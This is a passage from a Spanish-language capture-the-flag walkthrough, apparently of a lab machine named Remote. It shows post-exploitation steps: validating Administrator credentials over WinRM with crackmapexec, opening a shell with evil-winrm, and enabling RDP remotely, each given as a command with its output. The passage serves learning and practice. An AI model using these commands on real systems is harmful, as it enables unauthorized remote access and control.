 ```
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Otra opción sería `conectarnos` mediante `WINRM`, para eso `validamos` las `credenciales` con `crackmapexec`

```
# crackmapexec winrm 10.129.230.172 -u 'Administrator' -p '!R3m0te!'   
SMB         10.129.230.172  5985   REMOTE           [*] Windows 10 / Server 2019 Build 17763 (name:REMOTE) (domain:remote)
HTTP        10.129.230.172  5985   REMOTE           [*] http://10.129.230.172:5985/wsman
WINRM       10.129.230.172  5985   REMOTE           [+] remote\Administrator:!R3m0te! (Pwn3d!)
```

Nos conectamos a la máquina víctima como el usuario `Administrator`

```
# evil-winrm -u 'Administrator' -p '!R3m0te!' -i 10.129.230.172  
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
remote\administrator
```

Si queremos ver como luce el escritorio de la máquina víctima podemos `activar` el `RDP (Remote Desktop Protocol)` y usar `Remmina` para conectarnos

```
# crackmapexec smb 10.129.230.172 -u 'Administrator' -p '!R3m0te!' -M rdp -o action=enable   
SMB         10.129.230.172  445    REMOTE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:REMOTE) (domain:remote) (signing:False) (SMBv1:False)
SMB         10.129.230.172  445    REMOTE           [+] remote\Administrator:!R3m0te! (Pwn3d!)
RDP         10.129.230.172  445    REMOTE           [+] RDP enabled successfully
```

Abrimos `Remmina` y ponemos la `ip`

![](/assets/img/Remote/image_8.png)
